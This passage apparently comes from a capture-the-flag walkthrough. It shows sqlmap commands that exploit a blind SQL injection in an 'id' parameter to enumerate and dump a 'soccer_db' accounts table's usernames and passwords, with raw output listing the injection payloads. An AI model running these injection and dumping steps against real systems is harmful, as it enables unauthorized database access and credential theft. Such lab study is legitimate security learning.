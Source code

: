 ```
sqlmap -u "http://localhost:8081/?id=1" -p "id" --dbs
```

You can substitute the "id=1" with the ticket number that you got, like this "id=<id_number>". The sqlmap commands may take a significant amount of running time. We get that there is a database called "soccer_db". Now, let's run:

```
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --dump
```

We get that there is a table named "accounts". Let's run the following command to see the contents of the table:
```
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump
```

We see that there is a variable named username and a variable named password. Let's dump them:

```
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts -C username,password --dump
```

We get the following output from this command:

```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:32:30 /2023-04-16/

[15:32:30] [INFO] resuming back-end DBMS 'mysql' 
[15:32:30] [INFO] testing connection to the target URL
[15:32:32] [WARNING] turning off pre-connect mechanism because of incompatible server ('SimpleHTTP/0.6 Python/3.11.2')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=51955 AND 2839=2839

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=51955 AND (SELECT 9167 FROM (SELECT(SLEEP(5)))FZoa)
---
[15:32:32] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:32:32] [INFO] fetching entries of column(s) 'password,username' for table 'accounts' in database 'soccer_db'
[15:32:32] [INFO] fetching number of column(s) 'password,username' entries for table 'accounts' in database 'soccer_db'
[15:32:32] [INFO] resumed: 1
[15:32:32] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:32:32] [INFO] retrieved: 
[15:33:33] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
```